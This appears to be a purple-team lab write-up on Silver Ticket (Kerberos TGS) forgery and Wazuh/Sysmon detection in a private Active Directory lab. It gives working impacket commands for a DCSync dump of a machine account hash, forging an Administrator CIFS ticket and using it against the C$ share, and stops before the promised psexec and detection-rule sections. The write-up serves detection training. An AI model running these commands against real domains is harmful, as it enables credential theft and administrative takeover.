<!-- scope: operator-owned host, single operator, no distribution -->
<!-- class: active directory kerberos silver ticket tgs forgery and spn stealth detection -->
<!-- boundary: operator lab validation only -->

# Lab 14 — Silver Ticket (TGS Forgery) & SPN Stealth Detection Lab

Part of the **Core Detection Labs: Kerberos Attack & Defense Series** — an advanced end-to-end purple-team investigation: Target Machine & Service Account Secret Harvesting, Offline Ticket Granting Service (TGS) Forgery, KDC Evasion Architecture, Lateral Movement via SMB/CIFS, Sysmon Event 1 Endpoint Process Tracking, and Custom **Wazuh 4.14.5** SIEM Detection Engineering (Rule 100126).

---

## Executive Summary & Attack Matrix

In enterprise Active Directory environments, the vast majority of Kerberos monitoring is positioned at the Domain Controller, where Key Distribution Center (KDC) transactions — Authentication Service requests (**Event 4768 / AS-REQ**) and Ticket-Granting Service requests (**Event 4769 / TGS-REQ**) — are recorded. Adversaries who execute a **Golden Ticket** attack interact directly with the KDC to trade their forged TGT for service tickets, leaving distinct forensic telemetry on the domain controller.

A **Silver Ticket** attack operates under a fundamentally different, stealthier paradigm:
1. The adversary does **NOT** compromise the forest-wide `krbtgt` account. Instead, they extract or harvest the password hash or AES-256 Kerberos key of a specific target computer account (`WIN-SOCLAB$`) or service account (e.g., `MSSQLSvc`, `HTTP`, `CIFS`).
2. Using this local service key, the adversary constructs an offline Ticket Granting Service (TGS) ticket directly, embedding arbitrary Privilege Attribute Certificate (PAC) claims — including built-in RID 500 (`Administrator`) and Domain Admins RID 512.
3. When the forged TGS is presented to the target service (e.g., Port 445 SMB/CIFS), the target service decrypts the ticket using its own local key, evaluates the forged PAC, and grants unrestricted administrative execution.
4. **The KDC is NEVER contacted.** There are **zero** Event 4768 requests and **zero** Event 4769 requests generated on the Domain Controller for the forged ticket access. To standard perimeter SIEM rules monitoring KDC traffic, the adversary is entirely invisible.

In this laboratory, we simulated the complete intrusion lifecycle: staging a privileged account, harvesting the `WIN-SOCLAB$` machine account hash, forging an offline CIFS Silver Ticket via `impacket-ticketer`, validating SMB share access via `impacket-smbclient`, and deploying `impacket-psexec` to obtain an interactive `nt authority\system` shell on our Windows Server 2022 Domain Controller (`192.168.100.146`). On the defense side, we captured the resulting endpoint telemetry triad (Windows Security Event 4624, Event 4672, Event 7045, and Sysmon Event 1) and engineered custom **Wazuh Rule 100126** at **Level 12 (High Severity)** to detect PsExec lateral movement and service execution.

| # | Intrusion Stage | Windows Event ID | Wazuh Rule ID | Severity Level | Technical Telemetry Signature |
|---|---|---|---|---|---|
| **0** | **Privileged Account Staging** | **4720** | **100109** | **Level 10** | New account (`svc-silver14`) created outside business hours (`DontExpirePassword`) |
| **1** | **Group Elevation** | **4728** | **100105** | **Level 10** | Member added to privileged group (`Domain-Admins-Custom`) |
| **2** | **Machine Secret Extraction** | **4662 / 4624** | **100115** | **Level 10** | DCSync replication request extracting `WIN-SOCLAB$` machine NTLM and AES keys |
| **3** | **Offline TGS Forgery** | N/A (Offline) | N/A | N/A | Offline ASN.1 DER TGS construction signed with `WIN-SOCLAB$` secret key |
| **4** | **CIFS Share Access (Stealth)** | **4624 / 4672** | **60106 / 100115** | **Level 5 / 10** | Network logon (Type 3) and privilege assignment (`SeDebugPrivilege`) without DC KDC requests |
| **5** | **Service Installation** | **7045** | **100104** | **Level 8** | Service Control Manager installs remote service (`PSEXESVC.exe`) |
| **6** | **Sysmon Process Execution** | **Sysmon 1** | **100126** | **Level 12** | **PsExec execution detected on host via Sysmon Event 1 (`PSEXESVC.exe`, Parent PID 648)** |

---

## Architectural Mechanics: Golden Ticket vs. Silver Ticket

Understanding the distinction between Golden and Silver tickets is essential for tier-1 detection engineering and incident response:

```text
========================================================================================
                          KERBEROS TICKET COMPARISON ARCHITECTURE
========================================================================================

+----------------------------+-----------------------------------+-----------------------------------+
| Architectural Dimension    | Golden Ticket (TGT Forgery)       | Silver Ticket (TGS Forgery)       |
+----------------------------+-----------------------------------+-----------------------------------+
| Compromised Secret         | Domain krbtgt Account Hash/Key    | Target Service / Machine Account  |
| Ticket Structure           | Ticket Granting Ticket (TGT)      | Ticket Granting Service (TGS)     |
| Target Scope               | Entire Active Directory Forest    | Single Specific Service / Host    |
| KDC Network Interaction    | REQUIRED (TGS-REQ to KDC Port 88) | NONE (KDC completely bypassed)    |
| Domain Controller Telemetry| Event 4769 generated on DC        | ZERO Events on DC for KDC tickets |
| Primary Detection Locus    | Domain Controller KDC Logs        | Target Host Endpoint & Sysmon     |
| Default Persistence Window | 10 Years (Configurable)           | 10 Hours / 10 Years (Offline PAC) |
| Remediation Procedure      | Double krbtgt Password Reset      | Target Account / Computer Reset   |
+----------------------------+-----------------------------------+-----------------------------------+
```

### 1. The KDC Complete Blind Spot
In RFC 4120 Kerberos specifications:
- Under standard operations, when a client requires access to a service (e.g., `cifs/WIN-SOCLAB.soclab.local`), it transmits an `AS-REQ` to the KDC, receives a TGT, sends a `TGS-REQ` containing the TGT to the KDC, and receives a TGS encrypted with the target service's secret key.
- Under a **Silver Ticket** attack, because the adversary already possesses the target service's secret key, they generate the TGS ticket structure entirely offline.
- When the adversary connects to the target service (`AP-REQ`), the target service inspects the ticket. Finding it encrypted with its own valid machine account key, the service decrypts the ticket, assumes the KDC issued it, and grants immediate access.
- **The DC is never queried, logged, or alerted during ticket presentation.** Detection must therefore be engineered at the host telemetry and process creation layers.

```text
Normal Authentication Workflow:
[User Workstation] ---> (AS-REQ) ---> [KDC: Port 88] ---> (AS-REP: TGT)
[User Workstation] ---> (TGS-REQ) ---> [KDC: Port 88] ---> (TGS-REP: TGS) ---> (AP-REQ) ---> [Target Server]

Silver Ticket Attack Workflow:
[Attacker with Machine Hash] ---> (Offline TGS Generation) ---> [Forged TGS Ticket Cache]
                                                                        |
                                (Direct AP-REQ over SMB: Port 445)     |
                                                                        v
                                                          [Target Server: WIN-SOCLAB]
                                                          (0 KDC Traffic / 0 Events on DC)
```

---

## Network Topology & Lab Environment

```text
+--------------------------------------------------------------------------------------------------+
|                                  SILVER TICKET LAB TOPOLOGY                                      |
+--------------------------------------------------------------------------------------------------+
|                                                                                                  |
|   [ Kali Linux 2026.x ]                                  [ Windows Server 2022 DC ]              |
|   IP: 192.168.100.50                                     IP: 192.168.100.146                     |
|   Role: Adversary Host & SIEM Server                     Host: WIN-SOCLAB.soclab.local           |
|   • Wazuh Manager / Indexer / Dashboard                  • Active Directory Domain Services      |
|   • Impacket (secretsdump, ticketer, psexec)             • Target Machine Account: WIN-SOCLAB$   |
|   • Kerberos Client (KRB5CCNAME)                         • SMB / CIFS Service (Port 445)         |
|                                                          • Wazuh Agent 001 (Sysmon Active)       |
|                                                                                                  |
|   [ Windows Analyst Workstation ]                                                                |
|   IP: 192.168.100.27                                                                             |
|   Role: SOC Analyst Dashboard Access (HTTPS) / Active Directory Remote Administration            |
+--------------------------------------------------------------------------------------------------+
```

---

## Chronological Walkthrough & Evidence Analysis

The complete laboratory lifecycle comprises 34 sequential screenshots documenting staging, credential extraction, ticket construction, remote system takeover, and telemetry correlation.

---

### Phase 1: High-Privilege Account Creation & Staging

To simulate realistic credential harvesting, a dedicated service account (`svc-silver14`) was created on the Domain Controller. The password was provisioned via PowerShell, and flags were configured with `PasswordNeverExpires`.

```powershell
# On DC: Create fresh service account for Lab 14 silver ticket testing
$Password = ConvertTo-SecureString 'REDACTED_PASSWORD' -AsPlainText -Force
New-ADUser -Name "svc-silver14" `
    -SamAccountName "svc-silver14" `
    -UserPrincipalName "svc-silver14@soclab.local" `
    -AccountPassword $Password `
    -Enabled $true `
    -PasswordNeverExpires $true `
    -Description "Lab 14 Silver Ticket test account"

# Verify account creation
Get-ADUser svc-silver14 -Properties * | Select SamAccountName, Enabled, Description
```


*Figure 1.1: DC PowerShell execution creating `svc-silver14` with password obscured and verifying Active Directory object status.*

The account creation event was immediately ingested by Wazuh SIEM from Windows Security Event ID 4720:


*Figure 1.2: Wazuh Threat Hunting dashboard showing Rule 100109 (Level 10) alerting on account creation outside business hours.*


*Figure 1.3: Event 4720 document details showing `win.eventdata.newUacValue` and target account parameters.*


*Figure 1.4: Event 4720 subject details identifying `Administrator` (RID 500) as the provisioning actor.*


*Figure 1.5: Event 4720 target details confirming created user `svc-silver14` with RID `1154`.*


*Figure 1.6: Active Directory account naming attributes: SAMAccountName `svc-silver14` and UPN `svc-silver14@soclab.local`.*


*Figure 1.7: UserAccountControl attribute `0x211` indicating `DONT_EXPIRE_PASSWORD` and `NORMAL_ACCOUNT`.*

---

### Phase 2: Security Group Membership Elevation

To simulate realistic privilege escalation and allow credential replication, `svc-silver14` was added to the privileged custom administrative security group `Domain-Admins-Custom`:

```powershell
# On DC: Verify privileged group exists
Get-ADGroup -Identity "Domain-Admins-Custom"

# Add svc-silver14 to Domain-Admins-Custom
Add-ADGroupMember -Identity "Domain-Admins-Custom" -Members "svc-silver14"

# Verify group membership
Get-ADGroupMember -Identity "Domain-Admins-Custom" | Select SamAccountName
```


*Figure 2.1: DC PowerShell verifying the target security group `Domain-Admins-Custom` (SID `S-1-5-21-...-1117`).*


*Figure 2.2: Execution of `Add-ADGroupMember` elevating `svc-silver14` and confirming membership.*

Windows Security Event 4728 (`A member was added to a security-enabled global group`) was captured by Wazuh SIEM under **Rule 100105 (Level 10)**:


*Figure 2.3: Wazuh Threat Hunting dashboard displaying Rule 100105 alert for privileged group modification.*


*Figure 2.4: Windows Event 4728 document details showing target group and member addition attributes.*


*Figure 2.5: Subject identification confirming administrative authorization for group expansion.*


*Figure 2.6: Member SID mapping linking `svc-silver14` (RID 1154) to the escalation action.*


*Figure 2.7: Target group confirmation: `Domain-Admins-Custom`.*

---

### Phase 3: Machine Account Secret Harvesting

With elevated replication rights established, the attacker on Kali Linux executed `impacket-secretsdump` against the Domain Controller. Unlike a Golden Ticket attack which targets `krbtgt`, the objective here was the **target computer account secret**: `WIN-SOCLAB$`.

```bash
# Extract Active Directory hashes using svc-silver14
impacket-secretsdump 'soclab.local/svc-silver14:REDACTED@192.168.100.146' > full_dump.txt

# Filter the WIN-SOCLAB$ machine account entry
grep 'WIN-SOCLAB\$' full_dump.txt
```


*Figure 3.1: Impacket-secretsdump output extracting `WIN-SOCLAB$` LM, NTLM, AES-256, AES-128, and DES-CBC keys (sensitive values blurred).*

The extracted NTLM hash was parsed and exported to an environment variable `$HASH`:

```bash
# Verify clean 32-character NTLM hash extraction
echo $HASH
```


*Figure 3.2: Terminal verification confirming clean 32-character NTLM hash variable extraction (hash value blurred).*

---

### Phase 4: Offline Silver Ticket Forgery & Service Injection

Using the harvested machine account NTLM hash, the attacker constructed an offline **Silver Ticket (TGS)** specifically targeting the Common Internet File System (`CIFS`) service on the Domain Controller.

```bash
# Forge CIFS Silver Ticket as Administrator (RID 500) with full administrative group SIDs
impacket-ticketer \
  -nthash $HASH \
  -domain-sid 'S-1-5-21-3965529547-1709915012-255161553' \
  -domain 'soclab.local' \
  -spn 'cifs/WIN-SOCLAB.soclab.local' \
  -duration 10 \
  -groups 512,518,519,520 \
  Administrator
```


*Figure 4.1: Impacket-ticketer crafting offline PAC, encrypting ticket parts with the machine hash, and saving to `Administrator.ccache`.*

The generated credential cache was exported to the standard Kerberos environment variable:

```bash
# Export Kerberos cache location
export KRB5CCNAME=$PWD/Administrator.ccache

# Verify configuration
echo $KRB5CCNAME
```


*Figure 4.2: Terminal confirmation of `$KRB5CCNAME` targeting `Administrator.ccache`.*

To prove complete KDC evasion and ticket validity, `impacket-smbclient` was executed directly against the `C$` administrative share using Kerberos authentication (`-k -no-pass`):

```bash
# Connect to target host SMB share using forged Silver Ticket
impacket-smbclient -k -no-pass 'soclab.local/Administrator@WIN-SOCLAB.soclab.local'
```

